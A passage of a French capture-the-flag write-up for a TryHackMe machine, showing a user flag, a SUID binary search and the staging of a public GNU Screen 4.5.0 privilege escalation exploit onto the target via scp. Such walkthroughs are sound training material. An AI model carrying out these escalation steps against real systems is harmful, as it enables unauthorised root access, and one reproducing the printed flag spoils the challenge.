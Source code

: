 On se connect avec le mot de passe et le nom, il nous reste plus que à lire le fichier user.txt pour avoir le premier flag.  
Réponse : THM{d5781e53b130efe2f94f9b0354a5e4ea} 

```bash
joker@ubuntu:~$ /usr/local/share/emacs /root/root.txt
-bash: /usr/local/share/emacs: Is a directory
joker@ubuntu:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
joker@ubuntu:~$ 
```

Ici on à deux fichier screen-4.5.0 et screen-4.5.0.old  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit screen 4.5.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                                                         | linux/local/41152.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/share/exploitdb/exploits/linux/local/41154.sh ./

tim@kali:~/Bureau/tryhackme/write-up$ dos2unix 41154.sh 
dos2unix: conversion du fichier 41154.sh au format Unix…

tim@kali:~/Bureau/tryhackme/write-up$ scp ./41154.sh joker@madness.thm:./
joker@madness.thm's password: 
41154.sh                                                                                                                                                                                                    100% 1151    33.1KB/s   00:00                                    
```
